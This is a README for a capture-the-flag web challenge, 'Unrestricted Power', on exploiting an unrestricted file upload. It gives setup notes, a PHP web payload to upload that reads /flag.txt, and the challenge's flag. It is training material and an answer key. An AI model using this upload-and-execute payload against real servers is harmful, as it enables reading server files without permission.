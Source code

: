 # Web 1 CTF Challenge:

## Title: Unrestricted Power
## TESTED
## Created By: S1n1st3r

## NOTES

On startup you will need to exec in and run crond

    docker exec <container> '/var/www/entrypoint.sh'

Runs locally on port 32773

### Points: 100

### Description:

You have discovered an unrestricted file upload vulnerability on a web server. Your goal is to use this vulnerability to read the flag from the web server.

### Instructions:

    Visit the web server at http://www.example.com/forum.php
    Upload a file with the following contents:

<?php
$file = fopen("/flag.txt", "r");
$flag = fread($file, filesize("/flag.txt"));
echo $flag;
?>

Visit the uploaded file at http://www.example.com/uploads/<your_uploaded_file>.php

The flag will be displayed on the page.

flag.txt:

    SummitCTF{R3str1ct_y0u5_Upl0d3s}
